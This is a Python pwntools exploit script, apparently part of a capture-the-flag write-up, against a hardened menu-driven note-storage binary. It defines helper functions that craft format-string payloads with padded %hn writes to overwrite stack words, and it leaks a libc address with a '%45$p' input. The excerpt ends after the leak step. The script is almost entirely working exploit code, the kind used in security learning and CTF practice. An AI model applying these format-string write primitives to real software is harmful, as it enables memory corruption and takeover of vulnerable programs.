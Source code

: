 ```py
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled



def Store(title, content):
    io.sendlineafter('[Q]uit\n', 'S')
    io.sendlineafter('title\n', title)
    io.sendlineafter('content\n', content)

def Return(title):
    io.sendlineafter('[Q]uit\n', 'R')
    io.sendlineafter('title\n', title)

def Update(title, content):
    io.sendlineafter('[Q]uit\n', 'U')
    io.sendlineafter('title\n', title)
    io.sendlineafter('content\n', content)

def Delete(title):
    io.sendlineafter('[Q]uit\n', 'D')
    io.sendlineafter('title\n', title)

def buildStackAddr(offset, word):
    lsw = (stackaddr + 8 + offset) % 0x10000
    written = 0
    fmtstr = ''

    fmtstr += '%2hhx' * 14
    written += 14*2
    fmtstr += '%' + str((lsw - written) % 0x10000 + 0x10000) + 'hhx'
    written += (lsw - written) % 0x10000
    fmtstr += '%hn'

    fmtstr += '%2hhx' * 4
    written += 4*2
    fmtstr += '%' + str((word - written) % 0x10000 + 0x10000) + 'hhx'
    written += (word - written) % 0x10000
    fmtstr += '%hn'

    #proof of concept: reset stack to original state
    '''
    fmtstr += '%' + str((0x69 - written) % 0x10000 + 0x10000) + 'hhx'
    written += (0x69 - written) % 0x10000
    fmtstr += '%16$hn'
    '''

    Update('writer', fmtstr)
    Return('writer')

    io.success("wrote stack word: " + hex(word) + " to offset: " + hex(offset))

io = start()
pause()



Store('leaklib', '%45$p aaaaaaaa')
Return('leaklib')

```